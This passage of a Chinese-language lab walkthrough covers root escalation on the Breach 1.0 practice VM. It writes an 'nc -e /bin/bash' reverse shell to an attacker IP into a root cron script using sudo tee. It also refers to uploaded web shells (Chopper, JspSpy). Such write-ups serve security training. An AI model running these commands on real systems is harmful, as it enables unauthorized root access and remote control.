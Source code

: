7、并查看历史命令，发现/usr/share/cleanup和tidyup.sh脚本文件

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-25.png)

查看tidyup.sh脚本

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-26.png)

这是一段清理脚本，描述中说明每3分钟执行清理，删除webapps目录下的文件，因此之前上传的菜刀马总是被删除，需要重新上传。查看`tidyup.sh`的权限，对该脚本没有写入权限，只有root可以

8、查看sudo权限，执行`sudo -l`：发现用户能够以root权限执行这tee程序或tidyup.sh脚本：`/usr/bin/tee`和`/usr/share/cleanup/tidyup.sh`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-27.png)

ps：tee命令用于读取标准输入的数据，并将其内容输出成文件。tidyup.sh是清理脚本。

### 通过crontab的计划任务，反弹root shell

1、向tidyup.sh中写入反弹shell命令

tidyup.sh文件只有root可写，而能够以root权限运行tee命令，那么用tee命令写tidyup.sh：先将反弹shell命令写入shell.txt文件，使用bash反弹shell命令没有成功，于是使用nc命令反弹shell成功，所以写nc反弹命令：
`echo "nc -e /bin/bash 192.168.110.128 4444" > shell.txt`
再使用tee命令将shell.txt内容输出到tidyup.sh
`cat shell.txt | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh`
查看tidyup.sh文件写入成功：`cat /usr/share/cleanup/tidyup.sh`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-28.png)

2、nc监听等待反弹shell，因为是定时任务所有，这里需要等待3分钟执行反弹，查看权限是root，flag是一张图片,将图片拷贝到home目录：

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-29.png)

3、 使用之前上传的jsp大马JspSpy将flair.jpg下载到Windows：

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-30.png)

4、查看flag：I NEED TO TALK ABOUT YOUR FLAIR 游戏通关。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-31.png)